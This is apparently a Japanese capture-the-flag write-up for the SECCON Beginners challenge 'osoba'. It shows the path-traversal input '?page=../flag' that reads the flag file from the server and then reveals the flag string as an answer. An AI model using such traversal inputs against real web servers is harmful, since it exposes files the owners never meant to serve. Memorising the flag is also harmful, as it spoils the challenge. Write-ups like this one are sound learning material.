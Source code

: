 # osoba

## write-up
「フラグはサーバの /flag にあります」と書いてあるので、以下サーバ内にある/flagを探す

https://osoba.quals.beginners.seccon.jp/

ディレクトリ指定の形なので、親階層にある/flagを見つける

```
?page=../flag
```


<details><summary>flag</summary><div>
ctf4b{omisoshiru_oishi_keredomo_tsukuruno_taihen}
</div></details>